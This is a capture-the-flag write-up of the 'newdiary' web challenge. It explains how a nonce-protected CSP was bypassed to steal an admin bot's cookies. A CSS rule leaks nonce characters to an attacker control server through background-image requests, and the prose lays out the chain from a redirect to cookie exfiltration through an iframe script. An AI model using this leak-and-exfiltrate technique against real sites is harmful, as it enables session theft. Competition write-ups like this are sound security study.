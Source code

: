 # newdiary&emsp;<sub><sup>Web, 458 points</sup></sub>

_Writeup by [@bluepichu](https://github.com/bluepichu)_

The problem provides a pretty standard XSS setup: the ability to create posts and report them to an XSS bot, with the goal being to retrieve the bot's cookies.

The "view reported post" page gives the ability to inject arbitrary HTML in the page, with the only mitigation being a CSP with a nonce rule, which is properly randomized.  However, the CSP does not prevent us from connecting to an external server and does not prevent styles, so we can use styled elements with a background image pointing to a control server to exfiltrate information.  Conveniently, there is a copy of the script nonce in a script tag on the page, meaning that we can make checks against that element to leak information about the nonce.  In particular, we can write CSS rules like this to check for various patterns within the nonce:

```css
body:has([nonce^=a]) {
	background-image: url('http://controlserver/a');
}
```

The "view reported post" page also responds to the `hashchange` event exactly one time, allowing us to switch the content rendered on the page to a different post.  This means that if we can leak the nonce using one post's content, then we can create a new post with the known nonce and then swap out the page content by changing the hash to the new post's ID.

The approach we arrived at to actually leak the nonce was to use trigrams; so in particular, we check for the existence of every 3-character pattern within the base-36 nonce.  Since the CSP allows hosting styles on unpkg, we just hosted [an NPM package](https://www.npmjs.com/package/notrightpad) with the appropriate stylesheet and included it from there.  This is enough information to recover the entire nonce so long as no bigrams are repeated, which is likely to occur for a random nonce.

The full exploit chain is:
- Use a meta redirect to get the admin to our own site
- `window.open` a the "view reported post" page from our site, viewing a post that loads our custom nonce-leaking CSS
- Receive all of the trigrams
- Reconstruct the nonce from the trigrams
- Create a new post containing a script in a srcdoc-based iframe that sends us the cookies, which contains the nonce we recovered
- Change the hash on the `window.open`'d page to make the admin load this new post
